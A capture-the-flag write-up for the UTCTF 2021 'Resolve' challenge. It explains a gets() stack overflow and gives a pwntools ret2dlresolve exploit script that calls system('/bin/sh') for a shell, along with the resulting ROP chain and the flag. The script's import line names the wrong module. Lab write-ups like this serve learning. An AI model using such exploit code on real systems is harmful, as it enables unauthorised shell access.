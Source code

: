 ```yaml
---
layout: post
title: [UTCTF 2021] Resolve
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```
Now the vulnerability is a classic buffer overflow but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62). No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
from pwntools import *
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   
0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           
0x0010:         0x401044 gets(arg0)                                                                                           
0x0018:         0x401159 ret; #for stack alignment                                                                   
0x0020:         0x4011c3 pop rdi; ret                                                                                   
0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           
0x0030:         0x401020 [plt_init] system                                                                             
0x0038:         0x310 [dlresolve index]
```

Our overall program flow will look like `main()->pop rdi->gets()->pop rdi->system()->_dl_runtime_resolve()->system()`. The `pop rdi`'s are to setup arguments to functions later in the chain.

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload. Also pwntools is an awesome tool and thank god it exists.
